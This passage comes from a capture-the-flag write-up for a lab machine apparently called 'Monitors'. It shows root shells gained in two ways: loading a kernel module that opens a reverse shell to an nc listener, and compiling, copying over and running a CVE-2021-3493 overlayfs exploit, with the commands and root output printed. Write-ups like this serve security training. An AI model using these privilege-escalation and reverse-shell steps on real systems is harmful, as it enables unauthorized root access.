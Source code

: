 And upon installing it we recieve a reverseshell as `root` on the host system.

```
root@91d87563a4c2:/root# insmod grem.ko
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:48762.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@monitors:/# ls /root
ls /root
root.txt
root@monitors:/#
```


## Unintended root overlayfs

There was another way to get root on the machine but only in the `vip+` network, which was quickly patched after the release. The machine wasn't patched on this network against [CVE-2021-3493](https://github.com/0dayCTF/CVE-2021-3493).

Compiling the exploit locally and transfering it to the machine you got a quick root by simply running it.

```
$ gcc exploit.c -o exploit
```

```
$ scp exploit marcus@10.129.136.121:/home/marcus
marcus@10.129.136.79's password:
exploit							   100%   17KB  59.5KB/s   00:00
```

```
marcus@monitor:~$ ./exploit
bash-4.4# id
uid=0(root) gid=0(root) groups=0(root),1000(marcus)
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
